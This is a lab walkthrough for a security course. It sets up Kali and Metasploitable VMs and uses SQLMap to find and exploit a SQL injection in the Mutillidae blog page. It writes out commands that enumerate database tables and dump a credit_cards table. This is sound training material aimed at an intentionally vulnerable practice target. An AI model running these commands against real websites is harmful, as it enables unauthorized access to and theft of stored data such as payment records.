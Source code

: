 = SQL Injection with SQLMap

== Prerequisites

* Kali VM installed
* Metasploitable VM installed

== VM Configuration

Ensure that the Kali VM is configured properly.

* In VirtualBox, ensure that the network adapter is set to `internal network`.
* Give it the IP address `192.168.2.50`
+
```
ifconfig eth0 192.168.2.50
```

Ensure that the Metasploitable VM is configured properly.

* In VirtualBox, ensure that the network adapter is set to `internal network`.
* Give it the IP address `192.168.2.100`.
+
```
sudo ifconfig eth0 192.168.2.100
```
+
Enter `msfadmin` as the password when prompted.

Ensure that you can ping between the two virtual machines before proceeding.

== Configuring Metasploitable

The Mutillidae website must be configured to point to the OWASP 10 database. To change the configuration, run the following commands from the Metasploitable terminal.

```
cd /var/www/mutillidae
sudo nano config.inc
```

Change the database name to `osasp10` and save the file.

image::config-inc-password-change.png[]

== Using SQLMap to Verify SQL Injection Vulnerabilities

The remainder of the instructions will be done in your Kali VM.

Open Iceweasel and to go the page http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php. Note that the page has a dropdown where an author can be selected. Even though the dropdown does not allow free text to be entered, it still contains values that will be sent to the database. Because the page accepts user input that is likely sent to a database, it is potentially vulnerable to SQL injection. Typically, you would do an investigation to determine whether a variable might be vulnerable to SQL injection. For example, you might use the Burp Suite to analyze and requests sent to the server. For now, assume that the investigation has been done and the author variable has been determine to be a potentially exploitable variable.

SQLMap comes installed in Kali by default. Run the following command. (Copy and paste as needed. the `\` character is a line continuation character designed to make the command easier to copy. If you are typing the command, this character is not necessary.)

```
sqlmap -u \
"http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" \
--data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries"
```

* The `-u` parameter just passes a URL.
* The `--data` parameter has additional HTTP variables with their values.

Notice that SQLMap finds variables that are potentially vulnerable.

image::sqlmap-output-1.png[]

SQLMap correctly identifies the database as a MySQL database, so enter `y` to skip the other tests.

After further tests, SQLMap finds a vulnerability.

image::sqlmap-output-2.png[]

Press `n` to skip testing the other variables.

== Using SQLMap to Exploit Vulnerabilities

Once a vulnerability has been found, it can be exploited. Append `-D owasp10 --tables` to the previous command and run it. The full command will be:

```
sqlmap -u \
"http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" \
--data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries" \
-D owasp10 --tables
```

* The `-D` command specifies the database that should be accessed.
* The `--tables` parameter tells SQL map to output all of the tables in the database.

You should see a list of all of the tables in the database. This is definitely information that a website developer would not want expose to the public.

image::sqlmap-output-tables.png[]

Interestingly, there is a `credit_cards` table. Run the following command to view the data in that table.

```
sqlmap -u \
"http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" \
--data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries" \
-D owasp10 -T credit_cards --dump
```

* The `-T` parameter specifies a database table to access.
* The `--dump` parameter outputs the data to the terminal.

image::credit-cards.png[]

== Challenge

* Use the Burp Suite to find other potential vulnerabilities on the Mutillidae website. Verify the vulnerabilities using SQLMap.

== Reflection

* From a defense in depth perspective, how could these attacks have been prevented?
* How would you use SQLMap when assessing a very large website with a lot of functionality?
